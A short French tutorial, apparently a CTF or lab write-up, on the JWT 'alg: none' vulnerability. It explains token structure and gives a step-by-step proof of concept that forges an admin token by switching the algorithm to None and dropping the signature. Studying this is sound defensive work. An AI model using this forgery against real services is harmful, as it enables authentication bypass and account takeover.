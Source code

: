 # JWT - Weak Signature

Un JSON Web Token est fourni à l’utilisateur via un cookie lors de l’authentification

JWT fourni les mécanisme de sécurité suivant : Encryptions et Signature.

### Composition <a href="#jsonwebtoken-composition" id="jsonwebtoken-composition"></a>

JWT est composé du pattern suivant :

`Base64(Header).Base64(Data).Base64(Signature)`

Le Header contient les information sur le mécanisme de sécurité utilisé.

Pour exemple le Header suivant : `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9` contient ces informations :

`{ "alg": "HS256",`\
`"typ": "JWS"}`

Le Header vérifiera la signature et la signature vérifiera le Header.

Signer le Header n’empêchera pas un hacker de le falsifier et de changer l’algorithme utilisé pour la signature.

### Vulnérabilité <a href="#jsonwebtoken-vulnerabilite" id="jsonwebtoken-vulnerabilite"></a>

origine : [https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/.](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

Plusieurs type de signature peuvent assuré l’intégrité d’un JWT :

* RSA based
* Elliptic curves
* HMAC
* None

Comme SSL (avec le NULL Cipher) JWT supporte les algorithmes de Signature None (vide).

Probablement introduit pour débugger l’application, Cependant peut avoir un impact sur la sécurité.

### Exploitation <a href="#jsonwebtoken-exploitation" id="jsonwebtoken-exploitation"></a>

Pour Exploiter cette vulnérabilité, nous avons besoin de décoder le JWT et de changer son algorithme utilisé pour la signature.

Cependant cela ne fonctionnera pas si nous n’enlevons pas la signature.

Ainsi en fournissant une signature avec le `None` algorithme nous nous assurons que la signature renseigné soit vide.

POC :

pour le JWT suivant :

`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6IkFwbyIsImlhdCI6IjE2NzYwMzQ5NjQifQ.MzIwMjQ2MjBlYjI5OWFmNDM4NGM1NGQxZjkwNGViZmExZjI0YzYyOWY5OTY1MTc2YWMzZDdlMTEwNzNjNDFhZQ`

décodé en Base64 :

`{"alg":"HS256","typ":"JWS"}.{"login":"Apo","iat":"1676034964"fQ.32024620eb299af4384c54d1f904ebfa1f24c629f9965176ac3d7e11073c41aZQ`

on modifie

`{"alg":"HS256","typ":"JWS"}` en `{"alg":"None","typ":"JWS"}`

et on change le paramètre de la data

`{"login":"admin","iat":"1676034964"`}

puis on encode en Base64 sans mettre de signature.
